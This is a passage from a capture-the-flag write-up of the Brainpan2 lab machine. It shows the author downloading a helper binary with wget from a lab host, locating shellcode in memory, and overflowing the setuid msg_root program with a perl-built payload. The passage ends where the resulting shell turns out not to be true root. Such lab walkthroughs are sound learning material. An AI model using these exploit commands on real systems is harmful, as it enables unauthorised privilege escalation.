 ```
anansi@brainpan2:/home/reynard$ wget http://192.168.188.138/getenvaddr -O /tmp/getenvaddr
--2013-11-20 17:16:26--  http://192.168.188.138/getenvaddr
Connecting to 192.168.188.138:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5336 (5.2K)
Saving to: `/tmp/getenvaddr'

100%[=========================================================================>] 5,336       --.-K/s   in 0s

2013-11-20 17:16:26 (582 MB/s) - `/tmp/getenvaddr' saved [5336/5336]
anansi@brainpan2:/home/reynard$ chmod +x /tmp/getenvaddr
```

After saving the file to a temp directory, I executed it, to give me the address of 'SHELLCODE' in memory.

```
anansi@brainpan2:/home/reynard$ /tmp/getenvaddr SHELLCODE ./msg_root
SHELLCODE will be at 0xbffff91a
```

I then plugged the value into my skeleton exploit, and ran it.

```
anansi@brainpan2:/home/reynard$ ./msg_root $(perl -e 'print "A"x14 . "\x1a\xf9\xff\xbf"') hi
$ id
uid=1000(anansi) gid=1000(anansi) euid=104(root) groups=106(root),50(staff),1000(anansi)
```

At this point, I saw that I was 'root', and prepared to gloat about my victory in #vulnhub. I however missed one thing. 

## The fake out

If you look really carefully at the 'id' command, you'll see that the euid is '104', and the groupid is '106'. This is not the norm, as 'root' is usually '0' and '0'. I also noticed that my prompt was still '$', versus the usual '#' root prompt. I however, went along my way. I went to '/root', to see if there was some sort of flag, or something fun like are often found in these challenges. I saw there indeed was one, so I tried to read it.

```
$ cd /root
$ ls -al
total 28
drwx------  3 root  root  4096 Nov  5 09:56 .
drwxr-xr-x 22 root  root  4096 Nov  5 07:09 ..
drwx------  2 root  root  4096 Nov  4 10:08 .aptitude
-rw-------  1 root  root     0 Nov  5 09:57 .bash_history
-rw-r--r--  1 root  root   589 Nov  5 09:56 .bashrc
-rw-r--r--  1 root  root   159 Nov  5 09:56 .profile
-rw-------  1 root  root   461 Nov  5 09:48 flag.txt
-rw-------  1 root  root   245 Nov  5 09:47 whatif.txt
$ cat flag.txt
cat: flag.txt: Permission denied
```
